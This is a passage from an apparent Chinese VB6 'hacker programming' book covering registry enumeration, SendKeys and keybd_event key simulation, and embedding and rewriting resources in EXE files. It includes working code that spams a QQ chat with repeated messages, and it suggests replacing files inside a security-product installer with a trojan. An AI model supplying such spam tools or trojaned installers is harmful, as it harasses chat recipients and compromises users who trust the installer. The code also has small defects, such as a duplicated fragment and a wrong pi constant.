举例来说，我们初始化一个字符串变量 TmpStr，长度为 5，使用 String(5, Chr(0))，第一次用“1234”来填充，此时得到的结果字符串变为 1234Chr(0)。由于 Chr(0) 是作为字符串结尾标志的，那么打印 Str 得到结果为 1234。如果第二次赋值之前不清空其数据，保存“888”这个字符串到变量，最终得到的结果就会变成 8884Chr(0)，打印变量得到的结果将会是 8884。

显然，这并不是我们期望得到的结果，因此，初学者切记每次调用函数之前将缓冲区中的数据初始化。

上面的代码是不完善的，因为程序将项值的类型设置成了常数 REG_SZ，也就是说，无论其值具体是什么类型，我们都是当成字符串类型来读取的，这样做是不妥当的。可以看到，刚才得到的结果中 Windows Defender 启动项中还有一个环境变量 %ProgramFiles%，我们应该将其展开成实际值才对。

好了，下面我们改进一下上面的代码，让它可以同时读取 REG_EXPAND_SZ 类型的值并展开，只需要在打印值之前加入判断并转换的代码，窗体载入事件中的代码变为：

```vb
Private Sub Form_Load()
    Dim RegHwnd As Long                 ' 变量，保存子键句柄
    ' 调用函数返回句柄
    RegOpenKey HKEY_LOCAL_MACHINE, "SOFTWARE\Microsoft\Windows\CurrentVersion\Run", RegHwnd

    ' RegIndex 是项的索引，ValueName 是项的名称，RegType 是值类型，DataValue 是项的值
    Dim RegIndex As Integer, ValueName As String, RegType As Long, DataValue As String
    ValueName = String(255, Chr(0))     ' 初始项的名称为 255 长度的 Chr(0)
    DataValue = String(255, Chr(0))     ' 初始项的值为 255 长度的 Chr(0)
    RegIndex = 0                        ' 索引值设置为 0，第一个项的索引为 0
    Dim Ret As Long                     ' 函数调用后的返回值
    Ret = 0                             ' 初始为 0，假设调用成功
    Me.AutoRedraw = True                ' 设置窗体自动重绘

    While Ret = 0                       ' 循环调用直到调用失败
        Ret = RegEnumValue(RegHwnd, RegIndex, ValueName, 255, 0&, RegType, ByVal DataValue, 255)
        ' 如果是可扩展字符串，则展开
        If RegType = REG_EXPAND_SZ Then ExpandEnvironmentStrings DataValue, DataValue, 255
        Me.Print "项名为：" & ValueName
        Me.Print Left(DataValue, InStr(DataValue, Chr(0)) - 1)
        Me.Print "------------------------------------------------------------"
        RegIndex = RegIndex + 1         ' 项的索引值增加 1
        DataValue = String(255, Chr(0)) ' 再次初始化项的值
        ValueName = String(255, Chr(0)) ' 再次初始化项的名称
    Wend
End Sub
```


运行上面的代码，结果如图 5-46 所示。可以看到，项 Windows Defender 中的环境变量已经被展开了。亲爱的读者朋友，到此，对注册表操作的介绍就全部结束了。你已经会新建和删除子键了吗？你又会枚举子键了吗？你了解怎样读取注册表键值了吗？是否知道怎样枚举注册表键值呢？

## 5.7 本章小结

看到此处，亲爱的读者朋友是否觉得迷茫了呢？如是，那么我建议你回过头去，将本部分再看一遍。一本介绍编程的书通常不是看一遍就可以完全掌握的。第一遍是大致了解，第二遍是自己尝试去应用，第三遍是解开疑惑，而当第四遍的时候，你就可以开始为作者挑刺了。温故而知新，其实还是有一些道理的。希望本部分内容对你的编程有所启发，书中所附的代码，也请尝试运行并阅读。限于篇幅，书中可能并未附上完整代码。

到此，第五章的内容也结束了。API 函数可以极大地扩展程序的功能，望读者朋友们很好地掌握。API 函数同时也是读者朋友们 VB 编程进阶的重要内容，它也是一个瓶颈，只要下定决心，是一定可以突破的。学习使用 API 函数，也会对今后编写 DLL 动态链接库有所启发。

## 第六章

### 综合应用


## 6.1 引言

本章是对前面所学内容的综合应用，事实上，我们在前面已经有过一些较综合的应用了，这里做一些总结和补充。

作为一个 VB 开发人员，从心里，我们是要喜爱它的，希望编写 VB 程序的读者朋友喜欢 Visual Basic，不要因为别人说它效率低、不接近系统底层就看不起它。嘲笑 VB 就像是在嘲笑自己的家人，也如同嘲笑自己。热爱你正从事的事情，这是一个成功人士应该具备的基本素质。希望本章的内容对读者朋友们有所帮助。

## 6.2 编程实现屏保效果

这里我们使用 VB 编写一个程序，它类似于屏幕保护，可以从屏幕中央不断向四周发射随机色的线段，从 1° 到 360° 顺时针环绕屏幕，或者是从 360° 到 1° 逆时针环绕屏幕。每当发射完一周，清除屏幕上的内容再次发射。这样可以实现非常绚丽的效果。

新建工程，添加一个 Timer 控件，用于不断地发射线段，Interval 设置成 10，还有一个 Label，给出双击退出程序的提示。我们将窗体的 BackColor（背景）设置成黑色，BorderStyle 设置成 0-None（无边框窗体）。然后编写如下代码：

```vb
' 在窗体通用部分声明变量
Dim i As Integer
Dim mode As Integer
Dim c1, c2, c3 As Integer

Private Sub Form_DblClick()
    End                  ' 双击窗体，退出程序
End Sub

Private Sub Form_Load()
    mode = 1             ' 初始是逆时针绘制线段
    i = 360              ' 初始为 360°
    Form1.Top = 0        ' 设置窗体显示的位置
    Form1.Left = 0
    Form1.Width = Screen.Width   ' 设置窗体的大小
    Form1.Height = Screen.Height

    Randomize            ' 产生随机数种子
    ' 产生 3 个随机数 c1,c2,c3，也就是得到随机的三原色
    c1 = Int(Rnd * 255)
    Randomize
    c2 = Int(Rnd * 255)
    Randomize
    c3 = Int(Rnd * 255)
End Sub

Private Sub Timer1_Timer()
    Const pi = 3.14154926        ' 定义圆周率 Pi
    ' 设置窗体的位置和大小
    Form1.Top = 0
    Form1.Left = 0
    Form1.Width = Screen.Width
    Form1.Height = Screen.Height
    ' 如果 mode 的值为 1，那么逆时针绘制线段
    If mode = 1 Then
        Dim r As Integer      ' 定义变量，保存线段的长度
        r = 30000             ' 设置线段的长度为 30000，超过屏幕的长和宽
        i = i - 1             ' 逆时针度数减小 1
        If i < 1 Then         ' 如果 i 已经小于 1 了，则表明画完一圈
            Form1.Cls         ' 清除上一次画的所有线段
            i = 1             ' 初始角度数为 1
            mode = 2          ' mode 为 2，应该顺时针画线段了
            ' 重新获取随机三原色
            Randomize
            c1 = Int(Rnd * 255)
            Randomize
            c2 = Int(Rnd * 255)
            Randomize
            c3 = Int(Rnd * 255)
        End If
        hudu = i * pi / 180   ' 将角度 i 转换为弧度保存在 hudu 变量中
        ' 绘制线段，起始点在屏幕中心
        Form1.Line (Form1.Width * 0.5, Form1.Height * 0.5)-(Form1.Width * 0.5 + Cos(hudu) * r, Form1.Height * 0.5 + Sin(hudu) * r), RGB(c1, c2, c3)
    Else                      ' mode 不为 1，那么为 2，是顺时针画线段
        r = 30000             ' 设置线段的长度为 30000
        i = i + 1             ' 角度数增加 1
        If i > 360 Then       ' 如果角度数已经大于 360
            Form1.Cls         ' 清除上一圈画的结果
            i = 360           ' 初始角度数为 360
            mode = 1          ' mode 变为 1
            ' 颜色变为崭新的随机三原色
            Randomize
            c1 = Int(Rnd * 255)
            Randomize
            c2 = Int(Rnd * 255)
            Randomize
            c3 = Int(Rnd * 255)
        End If
        hudu = i * pi / 180   ' 将角度数 i 转换为弧度数，保存在变量 hudu
        ' 绘制线段
        Form1.Line (Form1.Width * 0.5, Form1.Height * 0.5)-(Form1.Width * 0.5 + Cos(hudu) * r, Form1.Height * 0.5 + Sin(hudu) * r), RGB(c1, c2, c3)
    End If
End Sub
```

代码每一句都非常简单，但要理解这段代码可能并不容易。看完注释及说明，如果你还不能理解程序实现的原理，那么，请读者朋友运行光盘中附带的源代码，查看程序的效果。然后，再回过头来看看这段代码，就非常容易理解了。

> 说明：Form.Line 使用了 Form1 的 Line 方法绘制线段。而 Line 方法用于在对象上画直线和矩形。它的基本形式是：对象名.Line [Step] (x1, y1) [Step] (x2, y2), [color], [B][F]。对于其中的几个部分，我们做如下描述：| 部分 | 描述 |
|---|---|
| object | 可选的。对象表达式，其值为“应用于”列表中的对象。如果 object 省略，具有焦点的窗体作为 object。 |
| Step | 可选的。关键字，指定起点坐标，它们相对于由 CurrentX 和 CurrentY 属性提供的当前位置。 |
| (x1, y1) | 可选的。Single（单精度浮点数），直线或矩形的起点坐标。ScaleMode 属性决定了使用的度量单位。如果省略，线起始于由 CurrentX 和 CurrentY 指示的位置。 |
| Step | 可选的。关键字，指定相对于线的起点的终点坐标。 |
| (x2, y2) | 必需的。Single（单精度浮点数），直线或矩形的终点坐标。 |
| color | 可选的。Long（长整型数），画线时用的 RGB 颜色。如果它被省略，则使用 ForeColor 属性值。可用 RGB 函数或 QBColor 函数指定颜色。 |
| B | 可选的。如果包括，则利用对角坐标画出矩形。 |
| F | 可选的。如果使用了 B 选项，则 F 选项规定矩形以矩形边框的颜色填充。不能不用 B 而用 F。如不用 F 光用 B，则矩形用当前的 FillColor 和 FillStyle 填充。FillStyle 的缺省值为 Transparent。 |

这个程序本身十分简单，但需要读者先了解程序的实现方法，如有疑问，请读者朋友们一定参考程序运行的效果。

## 6.3 SendKeys 实现打字效果

使用 SendKeys 函数可以实现像打字一样的输入效果，程序会在获取焦点的窗口进行输入。下面简介 SendKeys 语句。其功能是将一个或多个按键消息发送到活动窗口，如同在键盘上进行输入一样。它的基本形式是：`SendKeys string[, wait]`，这两个部分由如下描述：

| 部分 | 描述 |
|---|---|
| string | 必需的。字符串表达式，指定要发送的按键消息。 |
| Wait | 可选的。指定等待方式的 Boolean 值，如果为 False（缺省值），则控件在按键发送出去之后立刻返回到过程。如果为 True，则按键消息必须在控件返回到过程之前加以处理。 |

> 说明：每个按键由一个或多个字符表示。为了指定单一键盘字符，必须按字符本身的键。例如，为了表示字母 A，可以用“A”作为 string。为了表示多个字符，就必须在字符后面直接加上另一个字符。例如，要表示 A、B 及 C，可用“ABC”作为 string。

对 SendKeys 来说，加号（+）、插入符（^）、百分比符号（%）、波浪号（~）及圆括号（()）都具有特殊意义。为了指定上述任何一个字符，要将它放在大括号（{}）当中。例如，要指定正号，可用 `{+}` 表示。方括号（[]）对 SendKeys 来说并不具有特殊意义，但必须将它们放在大括号中。为了指定大括号字符，请使用 `{{}` 及 `{}}`。

为了在按下按键时指定那些不显示的字符（例如 ENTER 或 TAB）以及那些表示动作而非字符的按键，请使用下列表格代码：

| 按键 | 代码 |
|---|---|
| BACKSPACE | `{BACKSPACE}`、`{BS}` 或 `{BKSP}` |
| BREAK | `{BREAK}` |
| CAPS LOCK | `{CAPSLOCK}` |
| DEL 或 DELETE | `{DELETE}` 或 `{DEL}` |
| DOWN ARROW | `{DOWN}` |
| END | `{END}` |
| ENTER | `{ENTER}` |
| ESC | `{ESC}` |
| HELP | `{HELP}` |
| HOME | `{HOME}` |
| INS 或 INSERT | `{INSERT}` 或 `{INS}` |
| LEFT ARROW | `{LEFT}` |
| NUM LOCK | `{NUMLOCK}` |
| PAGE DOWN | `{PGDN}` |
| PAGE UP | `{PGUP}` |
| PRINT SCREEN | `{PRTSC}` |
| RIGHT ARROW | `{RIGHT}` |
| SCROLL LOCK | `{SCROLLLOCK}` |
| TAB | `{TAB}` |
| UP ARROW | `{UP}` |
| F1 | `{F1}` |
| F2 | `{F2}` |
| F3 | `{F3}` |
| F4 | `{F4}` |
| F5 | `{F5}` |
| F6 | `{F6}` |
| F7 | `{F7}` |
| F8 | `{F8}` |
| F9 | `{F9}` |
| F10 | `{F10}` |
| F11 | `{F11}` |
| F12 | `{F12}` |
| F13 | `{F13}` |
| F14 | `{F14}` |
| F15 | `{F15}` |
| F16 | `{F16}` |


图6-1 窗体的基本布局

为了指定那些与 SHIFT、CTRL 及 ALT 等按键结合的组合键，可在这些按键码的前面放置一个或多个代码，代码列举如下：

| 按键 | 代码 |
|---|---|
| SHIFT | + |
| CTRL | ^ |
| ALT | % |

为了说明在按下其它按键时应同时按下 SHIFT、CTRL 及 ALT 的任意组合键，请把那些按键的码放在括号当中。例如，为了说明按下 E 与 C 的时候同时按下 SHIFT 键，请使用“+(EC)”。为了说明在按下 E 的时候同时按下 SHIFT 键，但接着按 C 而不按 SHIFT，则使用“+EC”。

为了指定重复键，使用 `{key number}` 的形式。必须在 key 与 number 之间放置一个空格。例如，`{LEFT 42}` 意指 42 次按下 LEFT ARROW 键，`{h 10}` 则是指 10 次按下 H 键。

我们新建一个工程，绘制一个 Timer 控件（控制不断的 SendKeys）、一个开始或停止按钮、一个 TextBox（该 TextBox 用于获取焦点，并接受 SendKeys 发出的文字）。其中 TextBox 的 MultiLine 属性设置成 True，表示可以多行显示，窗体的基本布局如图6-1所示。

编写如下代码：

```vb
' 全局变量，保存已经输出的行数和当前行中的已输出字数
Dim cline, cword As Integer      ' cline 是已经输出的条数，cword 是输出的字数
Dim str(2) As String             ' 定义一个字符串数组，大小是 3

Private Sub Command1_Click()
    cline = 0                     ' 初始输出 0 行字符串
    Text1.SetFocus                ' 焦点给予 Text1
    If Timer1.Enabled = False Then
        Timer1.Enabled = True     ' 单击按钮开始或停止
    Else
        Timer1.Enabled = False
    End If
End Sub

Private Sub Form_Load()
    ' 为字符串数组赋值
    str(0) = "VB黑客编程参考手册"
    str(1) = "卡安全|黑客手册出品"
    str(2) = "详情请访问http://www.nohack.cn"
End Sub

Private Sub Timer1_Timer()
    If cword <= Len(str(cline)) Then          ' 如果该行还没有输出完毕，则输出该行的文字
        cword = cword + 1                     ' 每次 cword 的值增加一
        tosend = Mid(str(cline), cword, 1)    ' 取出需要输出的文字
        SendKeys tosend
    Else                                      ' 如果一行已经输出完毕
        SendKeys "{enter}"                    ' 输出换行的 Enter
        cline = cline + 1                     ' 输出的行数加一
        cword = 0                             ' cword 置 0
        If cline >= 3 Then                    ' 如果输出完 3 行，那么停止输出
            Timer1.Enabled = False
        End If
    End If
End Sub
```

代码很短，也十分简单，希望读者朋友们可以去光盘中看看程序的运行效果。经过修改，你还可以输出其它形式的文字，实现其它的效果。

## 6.4 Keybd_event 函数实现浪漫表白程序

Keybd_event 函数是一个模拟按键的函数，使用这个函数，我们可以实现非常浪漫的表白程序。它的 API 函数声明为：

```vb
Declare Sub keybd_event Lib "user32" Alias "keybd_event" (ByVal bVk As Byte, ByVal bScan As Byte, ByVal dwFlags As Long, ByVal dwExtraInfo As Long)
```

其中的几个参数：

| 参数 | 类型及说明 |
|---|---|
| bVk | Byte，欲模拟的虚拟键码 |
| bScan | Byte，键的 OEM 扫描码 |
| dwFlags | Long，零；或设为下述两个标志之一：`KEYEVENTF_EXTENDEDKEY`（指出是一个扩展键，而且在前面冠以 0xE0 代码）；`KEYEVENTF_KEYUP`（模拟松开一个键） |
| dwExtraInfo | Long，通常不用的一个值，API 函数 GetMessageExtraInfo 可取得这个值。允许使用的值取决于特定的驱动程序。 |

虚拟键码与键盘上的按键是对应的。字母键和数字键的虚拟键码是其 ASCII 码。参数 dwFlags 中的常数 KEYEVENTF_EXTENDEDKEY 和 KEYEVENTF_KEYUP 请使用 API 浏览器查看其定义。

浪漫表白程序的实现方法是：运行时打开一个空白记事本，使用 PostMessage 函数将记事本窗口最大化，并获取焦点。然后采用 Keybd_event 函数依次输入拼音，将汉字打出来。

相对而言，这种方法比使用 SendKeys 方法更高级，效果也更好。

新建一个工程，在窗体中放入两个 Timer 控件，一个用于不断地模拟按键，一个用于延时结束程序。Timer1 的 Interval 设置为 100，Timer2 的 Interval 属性设置为 5000。它们的 Enabled 属性都设置成 False。然后我们编写如下代码：

```vb
Private Declare Function ShowCursor Lib "user32" (ByVal bShow As Long) As Long
' API 函数声明
Private Declare Sub keybd_event Lib "user32" (ByVal bVk As Byte, ByVal bScan As Byte, ByVal dwFlags As Long, ByVal dwExtraInfo As Long)
' 定义常数
Private Const KEYEVENTF_EXTENDEDKEY = &H1      ' 按下扩展键的常数
Private Const KEYEVENTF_KEYUP = &H2            ' 模拟弹起一个键
Private Const VK_SPACE = &H20                  ' 空格键的虚拟键码
Private Const VK_CONTROL = &H11                ' Ctrl 键的虚拟键码
Dim have1 As Integer                           ' 变量：已经模拟按下的键个数
Option Explicit                                ' 强制变量声明
Dim word(150) As Integer                       ' 字符数组，保存需要按下的键

Private Sub Form_Load()
    Dim words As String                        ' 需要按下的键，空白会被转换为单引号按下，而“_”则会被转换为空格键
    words = "QIN AI DE_BAO BEI__WO AI NI__NI SHI_WO_YONG YUAN DE_BAO BEI___WO MEN_YI DING_HUI_XING FU DE____JIA YOU O_____LAO GONG_2009NIAN_4YUE_"

    Dim i As Integer
    For i = 0 To Len(words) - 1               ' 循环将需要按下的键保存到数组 Word 中
        If Mid(words, i + 1, 1) = " " Then    ' 如果是空白字符，则转换为单引号的虚拟键码
            word(i) = &HDE
        ElseIf Mid(words, i + 1, 1) = "_" Then ' 如果是“_”，则转换为空格键的虚拟键码
            word(i) = VK_SPACE
        Else
            word(i) = Asc(Mid(words, i + 1, 1)) ' 其他的是字符或数字，则直接取 ASCII 码保存
        End If
    Next i

    Shell "notepad.exe", VBMaximizedFocus     ' 打开空白的记事本程序
    ' 下面开始输入文字
    ' 先切换输入法
    keybd_event VK_CONTROL, 0, 0, 0            ' 按下 Ctrl 键
    keybd_event VK_SPACE, 0, 0, 0              ' 同时按下空格键
    ' 按下再弹起
    keybd_event VK_CONTROL, KEYEVENTF_KEYUP, 2, 0 ' 弹起 Ctrl 键
    keybd_event VK_SPACE, KEYEVENTF_KEYUP, 2, 0   ' 弹起空格键
    have1 = 0                                  ' 初始一个键都还没有按下
    ShowCursor False                           ' 不显示鼠标光标
    Timer1.Enabled = True                      ' Timer1 启用
End Sub

Private Sub Timer1_Timer()
    If word(have1) <> 0 Then                   ' 如果不是 0，则表明是可按下的键码
        keybd_event word(have1), 0, 0, 0       ' 模拟按下这个键
        have1 = have1 + 1                      ' 已按键数量增加 1
    Else
        Timer1.Enabled = False                 ' 停止按键
        Timer2.Enabled = True                  ' 等待 5 秒后退出程序
    End If
End Sub

Private Sub Timer2_Timer()
    ShowCursor True            ' 开始显示鼠标光标
    Unload Me                  ' 卸载窗体
    End                        ' 结束程序
End Sub
```

上面的代码做了逐行的注释，程序实现的效果是很唯美的。希望大家可以运行光盘中的代码实例。我们可以自己修改需要按下的键，也就可以打出不同的内容了。

> 注意：上面我们使用模拟按键 Ctrl+空格切换输入法，如果切换后的输入法不是拼音输入法，那么我们应该根据输入法的类型来自己修改模拟按下的键。采用拼音输入法输出的内容为“亲爱的宝贝 我爱你 你是我永远的宝贝 我们一定会幸福的 加油哦 老公2009年4月”。

## 6.5 Keybd_event 函数不断发送 QQ 消息

Keybd_event 函数是一个十分有用的函数，使用它就如同控制了键盘。除了模拟按键，我们还可以模拟鼠标点击。此处我们介绍模拟按键不断给对方发送 QQ 消息。方法是用 Timer 每 10 毫秒判断当前最上层窗口是不是 QQ 聊天窗口，如果是，则模拟按键。新建一个工程，添加一个 Timer 控件，Interval 属性设置成 10 毫秒，Enabled 属性设置成 True。编写如下代码：

```vb
' 声明 API 函数
Private Declare Function GetForegroundWindow Lib "user32" () As Long
Private Declare Function GetWindowText Lib "user32" Alias "GetWindowTextA" (ByVal hwnd As Long, ByVal lpString As String, ByVal cch As Long) As Long
Option Explicit                            ' 强制变量声明

' 声明 API 函数
Private Declare Sub keybd_event Lib "user32" (ByVal bVk As Byte, ByVal bScan As Byte, ByVal dwFlags As Long, ByVal dwExtraInfo As Long)

Private Const KEYEVENTF_EXTENDEDKEY = &H1   ' 按下扩展键的常数
Private Const KEYEVENTF_KEYUP = &H2         ' 模拟弹起一个键
Private Const VK_SPACE = &H20               ' 空格键的虚拟键码
Private Const VK_CONTROL = &H11             ' Ctrl 键的虚拟键码
Private Const VK_RETURN = &HD               ' Enter 键的虚拟键码

Dim Word(30) As Integer                     ' 字符数组，需要按下的键
Dim OutPut As Integer                       ' 已按下的键个数

Private Sub Form_Load()
    Dim i As Integer
    Dim MyStr As String                     ' 需要输入到 QQ 中的字符串
    MyStr = "HELLO VERY NICE TO KNOW YOU"   ' 赋初值
    For i = 1 To Len(MyStr)                 ' 循环将字符串保存至字符数组中
        If Mid(MyStr, i, 1) = " " Then      ' 如果是空白字符，则转换为空格
            Word(i) = VK_SPACE
        Else
            Word(i) = Asc(Mid(MyStr, i, 1))
        End If
    Next i
End Sub
```

```vb
Next i
End Sub

Private Sub Timer1_Timer()
    Dim hwnd1 As Long
    hwnd1 = GetForegroundWindow()
    Dim title As String * 255
    Dim len1 As Integer
    len1 = GetWindowText(hwnd1, title, 255)
    title = Mid(title, 1, len1)
    If Left(title, 1) = "与" And InStr(title, "交谈中") Then
        If Word(OutPut + 1) <> 0 Then
            keybd_event Word(OutPut), KEYEVENTF_KEYUP, 0, 0
            OutPut = OutPut + 1
        Else
            OutPut = 0
            keybd_event VK_CONTROL, KEYEVENTF_KEYUP, 0, 0
            keybd_event VK_RETURN, KEYEVENTF_KEYUP, 0, 0
            keybd_event VK_CONTROL, KEYEVENTF_KEYUP, 2, 0
            keybd_event VK_RETURN, KEYEVENTF_KEYUP, 2, 0
        End If
    End If
End Sub
```

运行上面的代码，我们随便打开一个 QQ 聊天窗口，则程序会不断给对方发送同一条消息，发送速度非常之快，几乎是每秒两条消息，如图 6-2 所示。修改字符串数组的内容就可以改变我们发送出去的内容了。

## 6.8 资源文件的使用方法

什么是资源文件呢？资源文件（具有 .res 文件扩展名）包含着无需重新编辑代码便可以改变的位图、字符串和其他数据。例如，如果计划用一种外语将应用程序本地化，可以将用户界面的全部正文串和位图存放在资源文件里，然后将资源文件本地化，而不是将整个应用程序本地化。一个工程最多包含一个资源文件。

上面的描述来自百度百科。个人觉得，资源文件其实是放在可执行文件中（扩展名为 Exe）的数据文件。例如，我们可以在一个应用程序中放入一首 Mp3，然后在运行程序的时候释放出来。木马生成器也就是利用改写资源文件，然后释放的。

简单举例说明资源文件的使用。一个程序安装文件，它看上去只有一个 Exe 文件，但其实它的资源文件中包含了几十甚至上百个文件。当我们运行安装程序的时候，这些文件被释放到指定的文件夹，然后安装程序注册必要的动态链接库，写入一些注册表项，就完成了程序的安装过程。在了解了资源文件的使用方法后，读者朋友们可以自己制作一个安装程序。

下面我们介绍资源文件的使用方法。首先新建一个工程，单击工具栏上面的“外接程序”-> 选择“外接程序管理器”，如图 6-3 所示。

在出现的窗口中，双击“VB6 资源编辑器”，加载“VB6 资源编辑器”，使用“VB6 资源编辑器”来编辑资源文件，如图 6-4 所示。

图 6-5 程序资源窗口

图 6-6 VB 资源编辑器

单击“确定”之后，在编译器中选择“工程”->“添加新资源文件”，此时要求选择一个路径，以便保存资源文件，选择程序所在的目录即可。资源文件扩展名为 RES，此处输入“test.res”。添加了一个资源文件后，可以在程序资源窗口中看到“test.res”，如图 6-5 所示。双击“相关文档”->“Test.RES”会出现 VB 资源编辑器，如图 6-6 所示。

图 6-7 编辑字符串表

我们先来尝试添加一个字符串的资源，单击那个“abc”按钮，会出现编辑字符串表，如图 6-7 所示。在标识号为 101 的条目中加入字符串“VB 黑客编程参考手册”。字符串表允许加入多条字符串信息，甚至多达几百条。在“VB 资源管理器”中保存资源，然后回到代码窗口，在窗体载入事件中写入代码：

图 6-8 返回字符串资源信息

```vb
Private Sub Form_Load()
    MsgBox LoadResString(101)    ' 返回标识号为101的字符串
End Sub
```

图 6-9 添加位图资源

运行上面的代码，如图 6-8 所示，正确返回了 101 号字符串的信息。

问：LoadResString 函数的用法是怎样的？  
答：LoadResString 函数的基本形式是：LoadResString(index)。其中 Index 是必须的参数，它用来指定资源文件中数据的标识符（ID）。

上面添加的是字符串资源，下面尝试添加位图资源（以 BMP 作为扩展名）。在“VB 资源编辑器”中单击“添加位图”按钮，然后选择一个位图文件，如图 6-9 所示，本例添加了一张图片。回到“对象窗口”，在窗体中绘制一个 Picture 控件，然后在窗体的载入事件中添加如下代码：

图 6-10 添加使用位图资源

```vb
Private Sub Form_Load()
    Picture1.Picture = LoadResPicture(101, VBResBitmap)  ' 返回位图资源到Picture控件
End Sub
```

运行上面的代码，结果如图 6-10 所示，位图资源可以正常使用。

> 注意：这里添加的只能是位图资源，也就是 BMP 格式的图片，如果需要添加其他格式（诸如 jpg、Gif 格式的图片），请选择添加“自定义资源”。

问：LoadResPicture 函数的用法是怎样的？  
答：LoadResPicture 函数用以从资源文件装载位图、图标或光标。它的基本形式是：LoadResPicture(index, format)。其中参数 Index 用来指定资源文件中数据的标识符（ID）。参数 Format 用于指定返回数据的格式。它可以是下面的设置值中的一个：

| 常数 | 值 | 描述 |
|---|---:|---|
| VBResBitmap | 0 | 位图资源 |
| VBResIcon | 1 | 图标资源 |
| VBResCursor | 2 | 光标资源 |

# 第六章 综合应用

> 在使用时，该参数可以用常数，也可以用常数名称。为了方便理解，最好使用常数名称，例如 VBResBitmap，而避免使用 0。

接着继续添加一个图标资源，然后将这个图标设置成程序窗体的图标。在资源编辑器中选择“添加图标”按钮，选择添加一个图标文件（扩展名为 ICO）。添加完毕之后保存资源文件，然后我们回到代码编辑窗口，在窗体的载入事件中添加代码：

```vb
Private Sub Form_Load()
    Form1.Icon = LoadResPicture(101, VBResIcon)    ' 载入图标资源
End Sub
```

图 6-11 使用图标资源

运行上面的代码，可以看到窗体的图标已经变成了我们所添加的资源文件，如图 6-11 所示。

上面我们使用的是特定类型的某种资源，而如果使用自定义资源文件的话，就可以添加任意格式的文件了，无论是 Wma 文件还是 Text 文件、Exe 文件等等。下面我们简单进行示例，将一个 Wma 文件作为自定义资源添加到程序的资源文件，然后使用程序将其输出到目录。

在“VB 资源编辑器”中单击添加“自定义资源”，选择一个 Wma 文件，此处添加一首五月天的“突然好想你.wma”。添加完毕，保存资源文件。

> **提示：**这里所添加的资源文件是以文件字节（Byte）的形式保存的。如果我们需要读取自定义资源，可以将其保存在一个 Byte 数组中。

要将文件释放出来，我们应该先了解一个函数——LoadResData 函数。LoadResData 函数用以从资源文件装载若干可能类型的数据，并返回一个 Byte 数组。它的基本形式是：LoadResData(index, format)。参数 Index 用来指定资源文件中数据的标识符（ID）。参数 format 指定返回数据的原始格式，该数值也可以是用户定义资源的字符串名。它可以是下面的设置值之一：

| 设置 | 描述 |
|---:|---|
| 1 | 光标资源 |
| 2 | 位图资源 |
| 3 | 图标资源 |
| 4 | 菜单资源 |
| 5 | 对话框 |
| 6 | 字符串资源 |
| 7 | 字体目录资源 |
| 8 | 字体资源 |
| 9 | 加速键表 |
| 10 | 用户定义资源 |
| 12 | 群组光标 |
| 14 | 群组图标 |

下面将资源文件中的“突然好想你.wma”释放到程序目录，文件名设成“测试文件.wma”，如果成功释放，那么这个文件应该可以用音乐播放器成功播放。在窗体的载入事件中添加下面的代码：

```vb
Private Sub Form_Load()
    Dim FileByte() As Byte                 ' 声明一个 Byte 字节数组
    FileByte = LoadResData(101, "CUSTOM") ' 返回文件字节到 FileByte 数组中
    Open App.Path & "\测试文件.wma" For Binary As #1  ' 新建打开一个二进制文件
    Put #1, , FileByte    ' 将FileByte数组中的字节写入文件
    Close #1              ' 关闭文件
End Sub
```

运行上面的代码，可以发现程序所在目录下多出了一个“测试文件.wma”，打开后可以正常播放，这说明已经成功将资源文件释放了出来。

资源文件的使用比较简单，它却非常有用，希望读者朋友们好好掌握。

在一个程序中添加了资源文件后，资源本身也是放在程序中的，所以程序的体积会增大。可以大到什么程度呢？在一个本身只有 20KB 的程序文件中，甚至可以向里面放入一个 300M 大小的资源。笔者曾成功在一个 30KB 的文件中动态写入了 300 多兆的光盘镜像。

如图 6-12 所示，这是一个 Exe 文件和其资源文件大小的对比，它们只相差了 18KB，这几乎等同于一个 VB 空白 Exe 的大小。

刚才介绍的是在编写源代码时添加和编辑资源文件，那么，等我们把程序编译成 Exe 后，还能往 Exe 文件里写入和修改资源吗？答案是肯定的。这是一个非常重要的方法，因为一旦可以动态修改 Exe 文件中的资源，那么就能实现对 Exe 文件本身进行修改。

例如，一个 360 安全卫士的安装程序，它自身装载加入了许多资源文件。如果直接修改安装程序中的资源文件，就可以尝试把 360 原来的文件替换成病毒或木马。当然，我们可以做的事情不仅仅如此，还可以利用把文件写入 Exe 实现加密，这在后面会介绍到。

先来了解怎样修改 Exe 文件中的资源文件。比如说，刚才的那个程序中，我们 101 号资源是“突然好想你.wma”，但此时，我想要把它改成另一首“离歌.wma”，就可以使用 API 函数：BeginUpdateResource、UpdateResource、EndUpdateResource，这三个函数是结合使用的。

> 图 6-12 Exe 文件和资源文件大小对比

### BeginUpdateResource 函数的声明为：

```vb
Declare Function BeginUpdateResource Lib "kernel32" Alias "BeginUpdateResourceA" (ByVal pFileName As String, ByVal bDeleteExistingResources As Long) As Long
```

功能是返回一个可被 UpdateResource 函数使用的句柄，以便在一个可执行文件中增加、删除或替换资源。对于其中的两个参数，说明如下：

| 参数 | 类型及说明 |
|---|---|
| pFileName | String，指定可执行文件或 DLL 的名字，将要对它的资源进行更新。调用这个函数的时候，文件绝对不能正在执行。 |
| bDeleteExistingResources | Long，TRUE（非零）表示删除文件中当前所有资源。如为 FALSE，则只改变在 UpdateResource 调用期间指定的现有资源。 |

函数的返回值为 Long，返回由 UpdateResource 函数用于更新文件资源的一个句柄。

### UpdateResource 函数的声明为：

```vb
Declare Function UpdateResource Lib "kernel32" Alias "UpdateResourceA" (ByVal hUpdate As Long, ByVal lpType As String, ByVal lpName As Long, ByVal wLanguage As Long, lpData As Any, ByVal cbData As Long) As Long
```

它的功能是增加、删除或替代某可执行文件中的资源。对于其中的几个参数，有如下说明：

| 参数 | 类型及说明 |
|---|---|
| hUpdate | 指定更新文件句柄，此句柄由 BeginUpdateResource 函数返回。 |
| lpType | 指向说明将被更新的资源类型的字符串，它以 NULL 为终止符。例如，更新“CUSTOM”类型的资源，可以设置为“CUSTOM”。 |
| lpName | 指向说明待被更新的资源名称的字符串，它以 NULL 为终止符。它可以设置为资源的标识符。 |
| wLanguage | 指定将被更新资源的语言标识。 |
| lpData | 指向被插入可执行文件的资源数据的指针。这里是按地址传递的，请注意。例如我们写入一个 Byte 数组中的数据，就应该是直接使用数组名。数组名返回的是数组的指针。 |
| cbData | 指定 lpData 中的资源数据大小，以字节计数。 |

